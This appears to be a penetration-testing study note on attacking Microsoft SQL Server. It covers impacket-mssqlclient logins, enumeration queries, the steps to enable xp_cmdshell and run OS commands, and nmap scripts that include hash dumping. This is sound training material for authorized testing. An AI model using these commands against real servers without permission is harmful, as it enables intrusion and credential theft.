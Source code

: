 # Microsoft SQL Server (MSSQL)

Default port: 1433


Is a database management system that natively integrates into the Windows ecosystem.

A built-in command-line tool named `SQLCMD` allows SQL queries to be run through the Windows command prompt or even remotely from another machine.


## Resources
- <https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/893fcc7e-8a39-4b3c-815a-
773b7b982c50/>
- <https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server>
- <https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet>










## Impacket
- <https://github.com/SecureAuthCorp/impacket>

Kali Linux includes `Impacket`, a Python framework that enables network protocol interactions. Among many other protocols, it supports Tabular Data Stream (TDS), the protocol adopted by MSSQL that is implemented in the `impacket-mssqlclient` tool.

We can run `impacket-mssqlclient` to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the `-windows-auth` keyword. This forces NTLM authentication (as opposed to Kerberos).
```
impacket-mssqlclient [USER]:[PASSWORD]@[IP] -windows-auth
```


MSSQL has a system stored procedure to execute operating system commands: `xp_cmdshell`, which takes a string and passes it to a command shell for execution. The function returns any output as rows of text.
This stored procedure is disable by default, but can be enabled remotely if the user has sufficient permissions.
Once enabled, it must be called with the EXECUTE keyword instead of SELECT.


- <https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-
sql?view=sql-server-ver15>





## Commands

When using a SQL Server command line tool like `sqlcmd`, we must submit our SQL statement ending with a `;` followed by `GO` on a separate line. However, when running the command remotely, we can omit the `GO` statement since it's not part of the MSSQL TDS protocol.




```
# inspect the current version of the underlying operating system8
SELECT @@version;


# To list all the available databases, we can select all names from the system catalog.
# master, tempdb, model  and msdb are default databases
SELECT name FROM sys.databases;


# review database by querying the tables table in the corresponding information_schema
SELECT * FROM [DATABASE NAME].information_schema.tables;


select * from offsec.dbo.users;
select * from master.dbo.sysusers;


```




`dbo` stands for DataBase Owner.
Microsoft introduced schema in version 2005. For those who didn’t know about schema, and those who didn’t care, objects were put into a default schema `dbo`.

See:

- <https://stackoverflow.com/questions/1062075/why-do-table-names-in-sql-server-start-with-dbo>










### check what is the role we have in the server
`SELECT is_srvrolemember('sysadmin');`


What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
`xp_cmdshell`

Check if the xp_cmdshell is already activated by issuing the first command:
`EXEC xp_cmdshell 'net user'`
`EXEC xp_cmdshell 'whoami'`


If xp_cmdshell is not activated (turned off) we will need to proceed with the activation as follows:
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE
```

On MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:

```
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```





## Tools

### nmap
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```


### Metasploit
```
msf> use auxiliary/scanner/mssql/mssql_ping
```